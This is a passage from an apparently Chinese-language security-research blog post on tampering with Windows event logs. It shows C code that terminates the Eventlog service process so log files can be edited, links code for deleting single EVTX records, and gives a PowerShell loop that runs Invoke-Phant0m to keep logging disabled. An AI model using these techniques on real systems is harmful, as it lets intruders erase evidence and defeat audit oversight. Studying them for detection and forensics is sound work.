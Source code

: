 ```

	printf("[+]Try to OpenProcess... ");
	HANDLE processHandle = OpenProcess(PROCESS_TERMINATE, FALSE, pid);
	if (processHandle == NULL)
	{
		printf("Error\n");
		return -1;
	}
	printf("Done\n");

	printf("[+]Try to TerminateProcess... ");
	BOOL bResult = TerminateProcess(processHandle, 0);
	if (bResult == NULL)
	{
		printf("[!]Error\n");
		return -1;
	}
	printf("Done\n");

	return 0;
}
```

**注：**

结束Eventlog服务对应的进程后，隔一段时间后Eventlog服务会自动重启

## 0x05 修改日志文件，删除日志记录
---

结束Eventlog服务对应的进程后，获得了操作日志文件的权限，修改日志文件的方法和c代码可参考上一篇文章《Windows XML Event Log (EVTX)单条日志清除（二）——程序实现删除evtx文件的单条日志记录》

代码参考地址：

https://github.com/3gstudent/Eventlogedit-evtx--Evolution/blob/master/DeleteRecordbyTerminateProcess.cpp

## 0x06 其他细节
---

关闭Eventlog进程和重启服务Eventlog会产生日志文件，位于system.evtx下，EventID为`7034`和`7036`

为了避免产生日志7034和7036，可通过关闭日志服务Eventlog线程的方法关闭日志记录功能

这里需要添加代码，写一个循环，在日志服务重启后立即结束线程，使得日志记录功能失效

参考powershell实现代码：

https://github.com/hlldz/Invoke-Phant0m

添加如下代码：

```
for($a=1;$a>0;$a=1)
{
    Invoke-Phant0m
    Start-Sleep -Seconds 1
}
```
